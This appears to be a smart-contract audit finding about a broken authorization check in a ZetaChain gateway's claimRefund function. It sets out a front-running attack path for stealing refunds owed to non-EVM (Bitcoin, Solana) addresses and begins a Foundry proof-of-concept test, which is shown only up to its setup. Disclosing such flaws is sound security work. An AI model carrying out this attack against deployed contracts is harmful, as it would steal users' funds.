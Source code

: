 **The problem**: When `walletAddress.length != 20` (non-EVM addresses), `receiver` remains `msg.sender`, making the authorization check `require(bots[msg.sender] || msg.sender == msg.sender)`, which simplifies to `require(bots[msg.sender] || true)` - always passing for any caller.


### Internal Pre-conditions

 Attacker monitors `EddyCrossChainRefund` events for refunds with non-EVM addresses

### External Pre-conditions

NA

### Attack Path

1. **Monitoring**: Attacker monitors `EddyCrossChainRefund` events for refunds with non-EVM addresses
2. **Identification**: Filter for refunds where `walletAddress.length != 20` (Bitcoin, Solana, etc.)
3. **Front-running**: Submit `claimRefund` transaction with higher gas to execute before legitimate bot
4. **Exploitation**: Due to flawed logic, the require statement passes and funds are transferred to attacker
5. **Theft Complete**: Attacker receives tokens intended for legitimate users on non-EVM chains


### Impact

Complete theft of all non-EVM chain refunds with minimal cost (only gas fees).

### PoC

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.20;

import {IZRC20} from "@zetachain/protocol-contracts/contracts/zevm/interfaces/IZRC20.sol";
import "@zetachain/protocol-contracts/contracts/zevm/interfaces/IGatewayZEVM.sol";
import {UniswapV2Library} from "../contracts/libraries/UniswapV2Library.sol";
import {SwapDataHelperLib} from "../contracts/libraries/SwapDataHelperLib.sol";
import {BaseTest} from "./BaseTest.t.sol";
import {console} from "forge-std/console.sol";

/* forge test --fork-url https://zetachain-evm.blockpi.network/v1/rpc/public */
contract GatewayCrossChainPOCTest is BaseTest {
    
    function test_PoC_ClaimRefundVulnerability() public {
        // ### SETUP ###
        
        // Setup: Create a refund for a Bitcoin address (non-EVM, >20 bytes)
        bytes32 externalId = keccak256(abi.encodePacked("bitcoin-refund-test"));
        uint256 refundAmount = 10000 ether; // 10,000 tokens
        address refundToken = address(token1Z); // Valuable token
        
        // Bitcoin address (more than 20 bytes) - this is the legitimate user's address
        bytes memory bitcoinAddress = "bc1qxy2kgdygjrsqtzq2n0yrf2493p83kkfjhx0wlh";
        
        // Attacker address
        address attacker = address(0x999);
        
        // Fund the contract with the refund token
        token1Z.mint(address(gatewayCrossChain), refundAmount);
        
        // Create a refund scenario using onAbort (simulating a failed Bitcoin transaction)
        vm.prank(address(gatewayZEVM));
```